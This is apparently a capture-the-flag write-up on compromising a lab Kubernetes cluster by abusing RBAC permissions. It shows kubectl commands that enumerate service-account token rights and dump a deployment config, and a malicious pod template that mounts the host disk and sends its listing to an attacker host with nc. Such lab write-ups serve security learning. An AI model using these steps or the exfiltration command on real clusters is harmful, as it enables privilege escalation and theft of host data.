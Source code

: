 So i found a pretty cool [presentation](https://published-prd.lanyonevents.com/published/rsaus20/sessionsFiles/18100/2020_USA20_DSO-W01_01_Compromising%20Kubernetes%20Cluster%20by%20Exploiting%20RBAC%20Permissions.pdf) (made at RSA conference in 2020) which disclaims the most relevant tokens and how to exploit them if we have access to them (also depending on their capabilities over the pods)  <br>

So i went and inspected some secrets until i found something interesting and, to short the notes i'll post only some of them <br>

The process to enumerate them is pretty straight-forward by:
1. setting the environment variable with the token
2. perform <auth can-i> command on the namespace
  
```bash
cmd: kubectl --token=$TOKEN --server=https://10.10.10.235:8443 --certificate-authority=ca.cert auth can-i --list -n kube-system

-> service-account-token
pods ... [create delete list patch watch]

-> statefulset-controller-token-z2nsd
pods ... [list watch create delete get patch update]

-> c-admin-token-tfmp2
*.* ... [*]
``` 

So we can see that the **c-admin-token-tfmp2** secret can do **ANYTHING** so we can procceed to exploit the kubernetes by creating a malicious pod <br>

For it to be quicker we need an image that we know that will work right away and for that i dumped the webapp deploy configuration
```bash
# get available deploys to view

cmd: kubectl --token=$TOKEN --server=https://10.10.10.235:8443 --certificate-authority=ca.cert get deploy 
NAME                READY   UP-TO-DATE   AVAILABLE   AGE
webapp-deployment   3/3     3            3           114d

# get the config
cmd:kubectl --token=$TOKEN --server=https://10.10.10.235:8443 --certificate-authority=ca.cert get deploy webapp-deployment -o yaml > (..)webapp-files/webapp_deploy.yaml
-- snip --
- image: localhost:5000/node_server
-- snip --
```

So now we need to create the **malicious.yaml** pod template (from the presentation)
```yaml
# -- snip --
    args: ["-c", "mkdir /mnt1; mount /dev/xvda1 /mnt1; ls /mnt1/ | nc <attacker_ip> 6666;'"]
# -- snip --
``` 
